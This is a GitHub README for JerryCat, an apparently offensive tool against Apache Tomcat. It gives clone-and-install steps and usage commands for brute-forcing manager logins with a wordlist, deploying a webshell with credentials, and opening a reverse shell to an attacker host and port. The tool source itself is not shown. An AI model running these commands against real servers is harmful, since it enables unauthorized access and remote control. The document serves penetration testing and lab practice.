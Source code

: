 <h1 align="center">JerryCat 🐭<h1>
<p align="center">
  <img alt="Version" src="https://img.shields.io/badge/version-1.0-orange.svg?cacheSeconds=2592000" />
  <a href="https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE" target="_blank">
    <img alt="License: MIT" src="https://img.shields.io/badge/License-MIT-yellow.svg" />
  </a>
  </br>
  <a href="https://twitter.com/Talace_" target="_blank">
    <img alt="Twitter: Talace_" src="https://img.shields.io/twitter/follow/Talace_.svg?style=social" />
  </a>
  <a href="https://twitter.com/LeandreOnizuka" target="_blank">
    <img alt="Twitter: LeandreOnizuka" src="https://img.shields.io/twitter/follow/LeandreOnizuka.svg?style=social" />
  </a>
</p>

## Features/Mode ⚒️

 - [x] Brute Force (brute)
 - [x] Webshell (exec)
 - [x] Reverse shell (reverse)

## Setup ✨

Clone & install dependencies
```sh
git clone https://github.com/TheF0rceAwak5ns/JerryCat.git && cd JerryCat && pip install -r requirements.txt
```

## Usage - Unauthenticated attack 

### Brute Force
**without** a user list
```sh
python3 jerrycat.py brute http://10.10.10.95:8080/ -P wordlists/password-list-common-tomcat.txt
```
**with** a user list
```sh
python3 jerrycat.py brute http://10.10.10.95:8080/ -U /path/to/user/list -P wordlists/password-list-common-tomcat.txt
```
![brute_1](https://github.com/TheF0rceAwak5ns/JerryCat/assets/117742366/57a83800-6b2a-4d16-96ea-8b3ff469fffd)


## Usage - Authenticated attack

### Webshell
```sh
python3 jerrycat.py exec http://10.10.10.95:8080/ -u tomcat -p s3cret
```
![webshell](https://github.com/TheF0rceAwak5ns/JerryCat/assets/117742366/4588a9bb-f2ca-4a45-ac26-75cd1ee956d0)

### Reverse shell
```sh
python3 jerrycat.py reverse http://10.10.10.95:8080/ -u tomcat -p s3cret --lhost 10.10.14.9 --lport 4444
```
![reverse_1](https://github.com/TheF0rceAwak5ns/JerryCat/assets/117742366/5436ff31-6996-4a43-a055-00fce23bac64)




